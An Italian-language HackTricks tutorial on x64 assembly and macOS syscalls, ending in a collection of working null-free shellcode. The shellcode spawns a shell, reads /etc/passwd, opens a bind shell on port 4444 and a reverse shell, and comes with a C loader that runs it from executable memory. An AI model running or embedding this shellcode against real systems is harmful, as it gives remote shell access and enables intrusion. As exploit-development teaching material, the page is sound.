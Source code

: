 # Introduzione a x64

{{#include ../../../banners/hacktricks-training.md}}

## **Introduzione a x64**

x64, noto anche come x86-64, è un'architettura di processore a 64 bit utilizzata prevalentemente nel computing desktop e server. Originata dall'architettura x86 prodotta da Intel e successivamente adottata da AMD con il nome AMD64, è l'architettura prevalente nei computer personali e nei server di oggi.

### **Registri**

x64 si espande sull'architettura x86, presentando **16 registri a uso generale** etichettati `rax`, `rbx`, `rcx`, `rdx`, `rbp`, `rsp`, `rsi`, `rdi`, e `r8` fino a `r15`. Ognuno di questi può memorizzare un valore **a 64 bit** (8 byte). Questi registri hanno anche sottoregistri a 32 bit, 16 bit e 8 bit per compatibilità e compiti specifici.

1. **`rax`** - Tradizionalmente usato per i **valori di ritorno** dalle funzioni.
2. **`rbx`** - Spesso usato come **registro base** per operazioni di memoria.
3. **`rcx`** - Comunemente usato per **contatori di ciclo**.
4. **`rdx`** - Usato in vari ruoli, comprese le operazioni aritmetiche estese.
5. **`rbp`** - **Puntatore base** per il frame dello stack.
6. **`rsp`** - **Puntatore dello stack**, tiene traccia della cima dello stack.
7. **`rsi`** e **`rdi`** - Usati per gli **indici di sorgente** e **destinazione** nelle operazioni su stringhe/memoria.
8. **`r8`** a **`r15`** - Registri a uso generale aggiuntivi introdotti in x64.

### **Convenzione di Chiamata**

La convenzione di chiamata x64 varia tra i sistemi operativi. Ad esempio:

- **Windows**: I primi **quattro parametri** sono passati nei registri **`rcx`**, **`rdx`**, **`r8`** e **`r9`**. Ulteriori parametri sono spinti nello stack. Il valore di ritorno è in **`rax`**.
- **System V (comunemente usato nei sistemi simili a UNIX)**: I primi **sei parametri interi o puntatori** sono passati nei registri **`rdi`**, **`rsi`**, **`rdx`**, **`rcx`**, **`r8`** e **`r9`**. Il valore di ritorno è anch'esso in **`rax`**.

Se la funzione ha più di sei input, il **resto sarà passato nello stack**. **RSP**, il puntatore dello stack, deve essere **allineato a 16 byte**, il che significa che l'indirizzo a cui punta deve essere divisibile per 16 prima che avvenga qualsiasi chiamata. Questo significa che normalmente dovremmo assicurarci che RSP sia correttamente allineato nel nostro shellcode prima di effettuare una chiamata a funzione. Tuttavia, in pratica, le chiamate di sistema funzionano molte volte anche se questo requisito non è soddisfatto.

### Convenzione di Chiamata in Swift

Swift ha la sua **convenzione di chiamata** che può essere trovata in [**https://github.com/apple/swift/blob/main/docs/ABI/CallConvSummary.rst#x86-64**](https://github.com/apple/swift/blob/main/docs/ABI/CallConvSummary.rst#x86-64)

### **Istruzioni Comuni**

Le istruzioni x64 hanno un set ricco, mantenendo la compatibilità con le istruzioni x86 precedenti e introducendo nuove istruzioni.

- **`mov`**: **Sposta** un valore da un **registro** o **posizione di memoria** a un altro.
- Esempio: `mov rax, rbx` — Sposta il valore da `rbx` a `rax`.
- **`push`** e **`pop`**: Spingere o estrarre valori da/per lo **stack**.
- Esempio: `push rax` — Spinge il valore in `rax` nello stack.
- Esempio: `pop rax` — Estrae il valore superiore dallo stack in `rax`.
- **`add`** e **`sub`**: Operazioni di **addizione** e **sottrazione**.
- Esempio: `add rax, rcx` — Aggiunge i valori in `rax` e `rcx` memorizzando il risultato in `rax`.
- **`mul`** e **`div`**: Operazioni di **moltiplicazione** e **divisione**. Nota: queste hanno comportamenti specifici riguardo all'uso degli operandi.
- **`call`** e **`ret`**: Usati per **chiamare** e **ritornare dalle funzioni**.
- **`int`**: Usato per attivare un **interruzione** software. E.g., `int 0x80` era usato per le chiamate di sistema in Linux x86 a 32 bit.
- **`cmp`**: **Confronta** due valori e imposta i flag della CPU in base al risultato.
- Esempio: `cmp rax, rdx` — Confronta `rax` con `rdx`.
- **`je`, `jne`, `jl`, `jge`, ...**: Istruzioni di **salto condizionale** che cambiano il flusso di controllo in base ai risultati di un precedente `cmp` o test.
- Esempio: Dopo un'istruzione `cmp rax, rdx`, `je label` — Salta a `label` se `rax` è uguale a `rdx`.
- **`syscall`**: Usato per **chiamate di sistema** in alcuni sistemi x64 (come i moderni Unix).
- **`sysenter`**: Un'istruzione di **chiamata di sistema** ottimizzata su alcune piattaforme.

### **Prologo della Funzione**

1. **Spingere il vecchio puntatore base**: `push rbp` (salva il puntatore base del chiamante)
2. **Spostare il puntatore dello stack corrente nel puntatore base**: `mov rbp, rsp` (imposta il nuovo puntatore base per la funzione corrente)
3. **Allocare spazio nello stack per le variabili locali**: `sub rsp, <size>` (dove `<size>` è il numero di byte necessari)

### **Epilogo della Funzione**

1. **Spostare il puntatore base corrente nel puntatore dello stack**: `mov rsp, rbp` (dealloca le variabili locali)
2. **Estrarre il vecchio puntatore base dallo stack**: `pop rbp` (ripristina il puntatore base del chiamante)
3. **Restituire**: `ret` (restituisce il controllo al chiamante)

## macOS

### syscalls

Ci sono diverse classi di syscalls, puoi [**trovarle qui**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/osfmk/mach/i386/syscall_sw.h)**:**
```c
#define SYSCALL_CLASS_NONE	0	/* Invalid */
#define SYSCALL_CLASS_MACH	1	/* Mach */
#define SYSCALL_CLASS_UNIX	2	/* Unix/BSD */
#define SYSCALL_CLASS_MDEP	3	/* Machine-dependent */
#define SYSCALL_CLASS_DIAG	4	/* Diagnostics */
#define SYSCALL_CLASS_IPC	5	/* Mach IPC */
```
Poi, puoi trovare ogni numero di syscall [**in this url**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/bsd/kern/syscalls.master)**:**
```c
0	AUE_NULL	ALL	{ int nosys(void); }   { indirect syscall }
1	AUE_EXIT	ALL	{ void exit(int rval); }
2	AUE_FORK	ALL	{ int fork(void); }
3	AUE_NULL	ALL	{ user_ssize_t read(int fd, user_addr_t cbuf, user_size_t nbyte); }
4	AUE_NULL	ALL	{ user_ssize_t write(int fd, user_addr_t cbuf, user_size_t nbyte); }
5	AUE_OPEN_RWTC	ALL	{ int open(user_addr_t path, int flags, int mode); }
6	AUE_CLOSE	ALL	{ int close(int fd); }
7	AUE_WAIT4	ALL	{ int wait4(int pid, user_addr_t status, int options, user_addr_t rusage); }
8	AUE_NULL	ALL	{ int nosys(void); }   { old creat }
9	AUE_LINK	ALL	{ int link(user_addr_t path, user_addr_t link); }
10	AUE_UNLINK	ALL	{ int unlink(user_addr_t path); }
11	AUE_NULL	ALL	{ int nosys(void); }   { old execv }
12	AUE_CHDIR	ALL	{ int chdir(user_addr_t path); }
[...]
```
Quindi, per chiamare la syscall `open` (**5**) dalla **classe Unix/BSD** è necessario aggiungerla: `0x2000000`

Quindi, il numero della syscall per chiamare open sarebbe `0x2000005`

### Shellcodes

Per compilare:
```bash
nasm -f macho64 shell.asm -o shell.o
ld -o shell shell.o -macosx_version_min 13.0 -lSystem -L /Library/Developer/CommandLineTools/SDKs/MacOSX.sdk/usr/lib
```
Per estrarre i byte:
```bash
# Code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/b729f716aaf24cbc8109e0d94681ccb84c0b0c9e/helper/extract.sh
for c in $(objdump -d "shell.o" | grep -E '[0-9a-f]+:' | cut -f 1 | cut -d : -f 2) ; do
echo -n '\\x'$c
done

# Another option
otool -t shell.o | grep 00 | cut -f2 -d$'\t' | sed 's/ /\\x/g' | sed 's/^/\\x/g' | sed 's/\\x$//g'
```
<details>

<summary>Codice C per testare lo shellcode</summary>
```c
// code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/helper/loader.c
// gcc loader.c -o loader
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <stdlib.h>

int (*sc)();

char shellcode[] = "<INSERT SHELLCODE HERE>";

int main(int argc, char **argv) {
printf("[>] Shellcode Length: %zd Bytes\n", strlen(shellcode));

void *ptr = mmap(0, 0x1000, PROT_WRITE | PROT_READ, MAP_ANON | MAP_PRIVATE | MAP_JIT, -1, 0);

if (ptr == MAP_FAILED) {
perror("mmap");
exit(-1);
}
printf("[+] SUCCESS: mmap\n");
printf("    |-> Return = %p\n", ptr);

void *dst = memcpy(ptr, shellcode, sizeof(shellcode));
printf("[+] SUCCESS: memcpy\n");
printf("    |-> Return = %p\n", dst);

int status = mprotect(ptr, 0x1000, PROT_EXEC | PROT_READ);

if (status == -1) {
perror("mprotect");
exit(-1);
}
printf("[+] SUCCESS: mprotect\n");
printf("    |-> Return = %d\n", status);

printf("[>] Trying to execute shellcode...\n");

sc = ptr;
sc();

return 0;
}
```
</details>

#### Shell

Preso da [**qui**](https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/shell.s) e spiegato.

{{#tabs}}
{{#tab name="with adr"}}
```armasm
bits 64
global _main
_main:
call    r_cmd64
db '/bin/zsh', 0
r_cmd64:                      ; the call placed a pointer to db (argv[2])
pop     rdi               ; arg1 from the stack placed by the call to l_cmd64
xor     rdx, rdx          ; store null arg3
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```
{{#endtab}}

{{#tab name="con stack"}}
```armasm
bits 64
global _main

_main:
xor     rdx, rdx          ; zero our RDX
push    rdx               ; push NULL string terminator
mov     rbx, '/bin/zsh'   ; move the path into RBX
push    rbx               ; push the path, to the stack
mov     rdi, rsp          ; store the stack pointer in RDI (arg1)
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```
{{#endtab}}
{{#endtabs}}

#### Leggi con cat

L'obiettivo è eseguire `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, quindi il secondo argomento (x1) è un array di parametri (che in memoria significa uno stack degli indirizzi).
```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 40         ; Allocate space on the stack similar to `sub sp, sp, #48`

lea rdi, [rel cat_path]   ; rdi will hold the address of "/bin/cat"
lea rsi, [rel passwd_path] ; rsi will hold the address of "/etc/passwd"

; Create inside the stack the array of args: ["/bin/cat", "/etc/passwd"]
push rsi   ; Add "/etc/passwd" to the stack (arg0)
push rdi   ; Add "/bin/cat" to the stack (arg1)

; Set in the 2nd argument of exec the addr of the array
mov rsi, rsp    ; argv=rsp - store RSP's value in RSI

xor rdx, rdx    ; Clear rdx to hold NULL (no environment variables)

push    59      ; put 59 on the stack (execve syscall)
pop     rax     ; pop it to RAX
bts     rax, 25 ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall         ; Make the syscall

section .data
cat_path:      db "/bin/cat", 0
passwd_path:   db "/etc/passwd", 0
```
#### Esegui comando con sh
```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 32           ; Create space on the stack

; Argument array
lea rdi, [rel touch_command]
push rdi                      ; push &"touch /tmp/lalala"
lea rdi, [rel sh_c_option]
push rdi                      ; push &"-c"
lea rdi, [rel sh_path]
push rdi                      ; push &"/bin/sh"

; execve syscall
mov rsi, rsp                  ; rsi = pointer to argument array
xor rdx, rdx                  ; rdx = NULL (no env variables)
push    59                    ; put 59 on the stack (execve syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

_exit:
xor rdi, rdi                  ; Exit status code 0
push    1                     ; put 1 on the stack (exit syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

section .data
sh_path:        db "/bin/sh", 0
sh_c_option:    db "-c", 0
touch_command:  db "touch /tmp/lalala", 0
```
#### Bind shell

Bind shell da [https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html](https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html) in **porta 4444**
```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xffffffffa3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; bind(host_sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x68
syscall

; listen(host_sockid, 2)
xor  rsi, rsi
mov  sil, 0x2
mov  rax, r8
mov  al, 0x6a
syscall

; accept(host_sockid, 0, 0)
xor  rsi, rsi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x1e
syscall

mov rdi, rax
mov sil, 0x3

dup2:
; dup2(client_sockid, 2)
;   -> dup2(client_sockid, 1)
;   -> dup2(client_sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
mov  rax, r8
mov  al, 0x3b
syscall
```
#### Reverse Shell

Reverse shell da [https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html](https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html). Reverse shell a **127.0.0.1:4444**
```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xfeffff80a3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; connect(sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x62
syscall

xor rsi, rsi
mov sil, 0x3

dup2:
; dup2(sockid, 2)
;   -> dup2(sockid, 1)
;   -> dup2(sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x3b
syscall
```
{{#include ../../../banners/hacktricks-training.md}}

